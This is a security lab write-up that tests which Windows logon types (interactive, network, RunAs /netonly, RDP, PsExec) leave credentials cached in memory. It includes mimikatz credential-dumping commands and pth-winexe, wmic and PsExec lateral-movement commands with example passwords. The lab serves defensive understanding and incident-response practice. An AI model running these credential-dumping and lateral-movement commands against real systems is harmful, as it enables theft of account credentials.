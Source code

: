 ```yaml
---
description: >-
  This lab explores/compares when credentials are stored on a compromised
  system.
---
```


# Network vs Interactive Logons

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump \(using mimikatz\) on the victim system to see what we can get before we start logging on to the victim with other methods. To test this, the victim system was rebooted and no attempts to login to the system were made, except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```text
runas /user:low /netonly cmd
```

Event logs suggest the logon of type 9 and also for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, however still get cached on the victim system:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:

![](../../.gitbook/assets/pwdump-logon10.png)

## PsExec From An Elevated Prompt

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
PS C:\tools\PSTools> whoami.exe
offense\spot

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

Inspired by:

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts: Safeguarding Password Hashes \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts: Safeguarding Password Hashes\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

